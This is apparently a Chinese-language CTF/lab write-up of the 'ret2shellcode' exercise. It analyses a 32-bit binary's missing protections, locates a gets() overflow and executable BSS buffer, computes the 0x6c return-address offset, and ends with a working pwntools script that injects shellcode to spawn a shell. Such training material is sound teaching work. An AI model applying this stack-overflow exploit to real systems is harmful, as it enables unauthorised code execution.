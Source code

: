 ## ret2shellcode复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具查找可利用的源码片段
- 使用二进制调试工具查看寄存器与内存内容
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230418171409400](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304181715199.png)

能够得知以下信息：

- 可执行文件为是一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“堆栈金丝雀（stack canary）”技术。
- 没有开启“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro来查看反汇编程序源码：

![image-20230418172044986](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304181720007.png)

可以看主函数中明显的缓冲区溢出漏洞入口`get(s)`，但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具。进一步分析程序，发现程序将输入的字符串`s`拷贝到`buf2`处，考虑`buf2`是否有一些利于利用的特殊性质。

![image-20230418172514969](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304181725995.png)

经过查找发现`buf2`在BSS段`0x0804A080`中，继续检查该内存位置的权限属性。

![image-20230418192259001](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304181922049.png)

对`main()`函数下断点，通过vmmap检查发现`0x0804A000`-`0x0804B000`具有可读可写可执行权限。那么通过`gets()`输入的内容在被拷贝到`buf2`后也可执行。

因此构思获得shell的攻击流程如下：

1. 构造shellcode
2. 通过`gets()`输入shellcode并构造缓冲区溢出攻击，劫持控制流。
3. 覆盖`main()`函数的返回地址为`buf2`的地址。
4. 当`main()`函数执行完毕退出时，eip指针返回到`buf2`中的shellcode继续执行，从而弹出一个shell供攻击者使用。

### 攻击复现

接下来实现攻击，同上一题，要先确定`main()`函数返回地址。

![image-20230418205135752](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304182051767.png)

![image-20230418205656888](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304182056925.png)

使用与上一题一样的步骤，在`call _gets`的地址`0x08048593`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffcee0`，其存放的内容即字符串`s`的地址为`0xffffcefc`；基址指针寄存器ebp的地址为`0xffffcf68`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcf68-0xffffcefc=0x6c`。此时内存结构如下图所示：

![image-20230419120251020](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191202077.png)

接下来编写的payload要做的就是通过`gets()`函数在`s`字符串地址开始写入shellcode，并填充任意数据直到0x6c长度，覆盖ebp（4个字节），最终改写`main()`函数的返回地址为`buf2`的地址`0x0804A080`。如下图所示：

![image-20230419120525228](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191205260.png)

最后的payload如下：

```python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode + b'A' * ((0x6c+4) - len(shellcode)) + p32(buf2_addr))
sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230419120619943](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304191206972.png)
